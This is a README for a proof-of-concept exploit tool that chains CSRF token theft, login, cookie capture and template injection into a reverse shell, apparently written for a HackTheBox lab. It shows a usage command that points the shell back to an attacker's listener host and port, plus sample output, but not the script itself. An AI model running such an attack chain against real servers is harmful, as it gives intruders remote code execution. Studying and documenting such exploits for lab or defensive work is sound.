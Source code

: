 # 🐍 SSTI → RCE Exploit PoC

**Author:** Uday  
**HackTheBox:** ExtremeUday2  
**X (Twitter):** [@udaypro2008](https://x.com/udaypro2008)

---

## 📌 Description
This PoC demonstrates **Server-Side Template Injection (SSTI)** leading to **Remote Code Execution (RCE)**.  
The script automates the following steps:
1. 🏷️ Fetch CSRF Token
2. 🔑 Login with given credentials
3. 🍪 Capture session cookies
4. 💉 Inject SSTI payload in `/settings`
5. 📞 Get a reverse shell on attacker machine

---

## ⚠️ Disclaimer
> This code is for **educational purposes only**.  
> Do NOT use it on live systems without permission.  

---

## 🚀 Usage

```bash
python3 ssti_rce.py -url http://TARGET -lhost $ip -lport $port --username admin --password password
```
---

## 🎯 Example Output
- [+] CSRF Token Found: abc123
- [+] Login Successful
- [+] Sending Payload...
- [+] Payload Sent Successfully! Check your listener.

